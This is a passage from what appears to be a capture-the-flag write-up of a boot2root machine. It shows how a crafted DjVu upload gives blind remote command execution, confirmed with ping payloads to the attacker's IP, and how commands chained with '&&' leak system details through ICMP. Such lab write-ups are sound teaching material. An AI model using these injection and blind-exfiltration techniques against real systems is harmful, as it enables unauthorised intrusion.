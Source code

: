 However, when uploading the generated file from the above command, our HTTP server receives nothing. 

![](/assets/images/mystiko/mystiko-10.png)
<br>


We don't know if the code is being executed properly, or if the requests are just being caught by a firewall, so let's see if we can send ICMP (ping) packets through, as they're less often restricted by firewalls (in boot2root machines, that is).

```bash
bash craft_a_djvu_exploit.sh "ping -c 2 10.2.76.47"
```

![](/assets/images/mystiko/mystiko-11.png)

Our `tcpdump` picks up ICMP packets being sent from the server, so our code is being executed remotely!

![](/assets/images/mystiko/mystiko-12.png)

After a lot of enumeration, and having no luck getting other payloads to work, I resort to a boolean enumeration method. 

In bash `&&` operator will only execute the second command, if the first command completes.

```bash
which curl && ping -c 2 10.2.76.47
```

So if `curl` is installed, the machine will ping us. Using this method, we can slowly exfiltrate information about the system. 

Due to some weird voodoo magic, echoing strings, writing to files and using special characters like `>` and `<` breaks the command. 
This means we can't echo base64 strings into files, which makes it significantly harder to transfer files.
<br>

Fortunately, we still have access to the upload file functionality of the web application. 
If we can find the `uploads` directory, we can upload scripts to aid our remote code execution. 
